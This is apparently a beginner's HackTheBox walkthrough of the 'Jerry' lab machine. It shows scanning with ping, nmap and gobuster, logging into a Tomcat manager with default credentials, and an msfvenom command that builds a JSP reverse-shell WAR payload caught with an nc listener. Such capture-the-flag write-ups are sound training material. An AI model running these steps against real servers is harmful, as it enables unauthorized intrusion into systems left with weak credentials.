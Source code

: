 # About me

Welcome all to my ``Offensive Security`` journey and first ever write up.
I have been active on ```HackTheBox``` and `Tryhackme` since December 2020.
However I have only been able to work on few  machines during the last two years while learning about ```Info-Sec``` fundamentals on ```TryHackMe``` and others few online platforms, also while I completed my degree.

Before we dive in the write up  for the first machine i Pwned that is```Jerry``` ,it's important to note that prior rooting the first machine on ```Hackthebox``` I have quasi zero experience ``Hacking``.

If you are new to ```Cyber Security```, there are many platforms out there that can help you get the knowledge .
As of now I am still learner and I believe in this industry ```Learning don't Stop```. I am currently going for my first certification that is the ```eJPT``` from ```Elearnsecurity```.

# Set UP

If you have trouble setting your home Lab to access hackthebox content, should you refer to youtube. There are tons  of videos that can help you set up your box.

# Jerry


```┌──(yasuke㉿kali)-[~/…/Writeups/HTB/Jerry/HTBJerry]```

```└─$ ping 10.10.10.95```            
```PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.```

```64 bytes from 10.10.10.95: icmp_seq=1 ttl=127 time=32.0 ms```

```64 bytes from 10.10.10.95: icmp_seq=2 ttl=127 time=31.7 ms```

```64 bytes from 10.10.10.95: icmp_seq=3 ttl=127 time=31.3 ms```

```--- 10.10.10.95 ping statistics ---```

```3 packets transmitted, 3 received, 0% packet loss, time 2002ms```
```rtt min/avg/max/mdev = 31.252/31.650/31.996/0.306 ms```

From the ping command we can identify that our target machine runs on ```Windows OS``` by looking at the ```TTL(Time to live)``` response. This a trick that I learned from some of the big names I watched sovling boxes on Youtube.
We have ping the machine and it echoed back to us.
Now we will proceed on scanning for open ports and enumerate all services running on our target machine.

To discover what services are currently running on the target machine, I used ```Nmap``` however there other tools that can give you the same output as ```nmap```.


#Nmap

I ran the command ```Nmap -sC -sV -T4  -Pn <IP Address> -oN <outputfile>```

```sC``` is for default scripts scan.
```sV``` is for version of the services runnimg.
```T4``` is the speed of the scan. not that, this method is crucial because you don't want to make to much noise in the network traffic so declaring a speed of four the best you need for a fast scan.
```oN``` is redirect that fouding into a file. This you would nao

![scan](https://user-images.githubusercontent.com/61636217/173915915-977a8bd6-0ef2-4280-8b91-0ac00db0a277.png)

#Gobuster

After we have ran the ```Nmap``` command we have discovered that there is 2 open ports on our target machine.

```22``` & ``8080``. We noticed that a Tomcat is running on that machine.
Before going deep in the attack we must first try enumerate some port on port 8080 to find out what directory are hosted in the application adn for that I ran ```Gobuster``` for directory discovery.

``` gobuster dir --url  http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```
we discover an interesting directory ```Manager```.
From this step there are differents way you can plan your attack. Here We are going to exploit a misconfigure Tomcat Server.
by default All Tomcat creds are ```tomcat``` & ```s3cret```. but there are other ways to get creds.Navitgating to that Manager directory on port 8080 we prompted with sign in option. to get creds the easy way is the hit the ```cancel``` button and you will redirected to a ```401 Unauthorized``` that display the credentials in plain text. Or you can use ``Metasploit`` to run an exploit against Tomcat server to get the credentials.



![8080](https://user-images.githubusercontent.com/61636217/175167658-cc992ea4-6978-43ab-ad94-e186c93ab26d.png)

![signin](https://user-images.githubusercontent.com/61636217/175167703-d26fcaa2-e862-45e8-ae76-ed85f98c9fda.png)


![creds](https://user-images.githubusercontent.com/61636217/175167731-af77b831-5f62-4c9a-b87a-d3bd4ad4ba48.png)

![manager](https://user-images.githubusercontent.com/61636217/175167776-b4adf04a-afc3-4998-b984-2b408783d7aa.png)

Looking at that last picture after we have successfully logged in the application we see that we have an option to upload a war file.
This is our point of entry to the system. Back on my console I created a war file payloads with ```msfvenom``` to get a reverse shell.
the command I ran ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f <File_extension> -o <file_output.war>```
I then had my payload ready to get uploaded on the target application with a listener that I had ready to receive connection from our targer after we have executed tha file that we uploaded on the server. the command was ``nc -lnvp <Port>``.

![shell](https://user-images.githubusercontent.com/61636217/175169884-bacaa480-f6a3-480a-96d8-db75e03d506a.png)

Our payloads executed well and gave us a shell. We then proceed to navigate our in the target system to retreive the flags.


![flags](https://user-images.githubusercontent.com/61636217/175169915-39c55c4d-b7a1-408e-926f-4c42c5990559.png)

For the machine we did not need to escalated our privileges  to get the root flag because we had the ``` Two for one ``` flags in one file.
This was my first machine I worked on on ```Hackthebox``` it is realistic as Apache Tomcat who is often found configured with common or weak credentials.


